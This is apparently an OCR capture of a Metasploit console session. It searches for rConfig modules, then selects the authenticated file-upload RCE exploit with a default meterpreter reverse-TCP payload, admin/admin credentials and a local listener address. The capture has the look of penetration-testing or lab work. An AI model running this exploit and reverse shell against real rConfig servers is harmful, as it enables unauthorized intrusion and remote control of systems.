 ```
msf6 > search rconfig

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce                     2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download                  2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce          2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/linux/http/rconfig_vendors_auth_file_upload_rce  2021-03-17       excellent  Yes    rConfig Vendors Auth File Upload RCE
   4  exploit/unix/webapp/rconfig_install_cmd_exec             2019-10-28       excellent  Yes    rConfig install Command Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/rconfig_install_cmd_exec

msf6 exploit(windows/smb/ms17_010_psexec) > use 3
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > options

Module options (exploit/linux/http/rconfig_vendors_auth_file_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password of the admin account
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all
                                         addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of the rConfig server
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username of the admin account
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```